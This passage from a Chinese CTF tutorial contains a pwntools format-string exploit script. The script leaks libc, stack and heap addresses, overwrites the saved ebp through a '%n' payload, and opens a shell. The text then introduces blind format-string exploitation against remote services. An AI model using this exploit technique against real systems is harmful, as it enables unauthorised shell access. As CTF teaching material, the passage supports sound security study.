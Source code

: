 ```python
system_addr = libc_base + libc.dump('system')
binsh_addr = libc_base + libc.dump('str_bin_sh')
log.success('get system addr: ' + hex(system_addr))
log.success('get binsh addr: ' + hex(binsh_addr))
#gdb.attach(sh)

# get heap addr and ebp addr
payload = flat([
    system_addr,
    'bbbb',
    binsh_addr,
    '%6$p%11$pcccc',
])
createcontact('2222', '2222', '222', payload)
printcontact()
sh.recvuntil('Description: ')
data = sh.recvuntil('cccc', drop=True)
data = data.split('0x')
print data
ebp_addr = int(data[1], 16)
heap_addr = int(data[2], 16)

# modify ebp
part1 = (heap_addr - 4) / 2
part2 = heap_addr - 4 - part1
payload = '%' + str(part1) + 'x%' + str(part2) + 'x%6$n'
#print payload
createcontact('3333', '123456789', '300', payload)
printcontact()
sh.recvuntil('Description: ')
sh.recvuntil('Description: ')
#gdb.attach(sh)
print 'get shell'
sh.recvuntil('>>> ')
#get shell
sh.sendline('5')
sh.interactive()
```

需要注意的是，这样并不能稳定得到shell，因为我们一次性输入了太长的字符串。但是我们又没有办法在前面控制所想要输入的地址。只能这样了。

# 格式化字符串盲打

## 原理

所谓格式化字符串盲打指的是只给出可交互的ip地址与端口，不给出对应的binary文件来让我们进行pwn，其实这个和BROP差不多，不过BROP利用的是栈溢出，而这里我们利用的是格式化字符串漏洞。一般来说，我们按照如下步骤进行

- 确定程序的位数
- 确定漏洞位置 
- 利用
